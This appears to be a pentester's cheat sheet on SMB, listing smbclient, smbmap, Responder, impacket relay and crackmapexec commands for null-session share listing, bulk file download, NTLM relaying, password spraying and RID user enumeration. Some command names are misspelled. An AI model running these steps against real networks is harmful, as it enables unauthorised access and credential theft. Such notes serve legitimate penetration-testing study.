 ```yaml
---
icon: database
description: Server Message Block
---
```


# SMB

{% tabs %}
{% tab title="smbclient" %}
{% code title="Without Credentials" %}
```
smbclient --no-pass //IP/<Share>
```
{% endcode %}
{% endtab %}

{% tab title="smbmap" %}
{% code title="Connect to Host" %}
```
smbmap -H <IP>
```
{% endcode %}

{% hint style="info" %}
{% code title="List Resource list" %}
```
smbclient -L <IP>
```
{% endcode %}
{% endhint %}

{% code title="List Share" %}
```
smbmap -H <IP> -r <SHARE>
```
{% endcode %}

{% code title="List Null session" %}
```
smbclient -N <IP>
```
{% endcode %}


{% endtab %}
{% endtabs %}

```bash
#Connect



#List Share

#Resources List for null session
smbclient -N <IP>
#Resources List
smbclient -L <IP>
```

<mark style="color:purple;">**Download Files:**</mark>

```python
#In this order
recurse
prompt
mget *
```

<mark style="color:purple;">**Check files attributes**</mark>

```
allinfo
```

<mark style="color:purple;">**Check Authentication**</mark>

```bash
#SMB Relay
responder -I eth0 -dwv

#Impacket
impacket-ntrlrelayx -tf target.txt -smb2support -c <payload>

```

### <mark style="color:purple;">With Credentials</mark>

<mark style="color:purple;">**SMB Credential Check**</mark>

```bash
cracmapexec smb <IP> -u usernames -p passwords

#List
crackmapexec smb <IP> -u '' -p '' --shares
```

<mark style="color:purple;">**SMB User enumeration**</mark>

```python
crackmapexec smb <IP> -u <USER> -p <PASSWORD> --rid-brute

#Full Enumeration
crackmapexec smb <IP> -u usernames -p passwords --continue-on-success
#DNS
smbmap -H <IP> -d <dns> -u '<user>' -p '<pass>'

#Connect to share
smbclient -N \\\\IP\Share

#List share
smbclient //IP/<SHARE> -U <USER>

#Download Share
smbget -U <User> smb://IP/<SHARE_LOCATION> / --download
```

<mark style="color:purple;">**SMB RMU (REMOTE MANAGEMENT USER)**</mark>

```python
crackmapexec winrm <IP> -u <USER> -p <PASSWORD>
```

<mark style="color:purple;">**Impacket**</mark>

```
impacket-smbclient <IP>/user:password@address
```
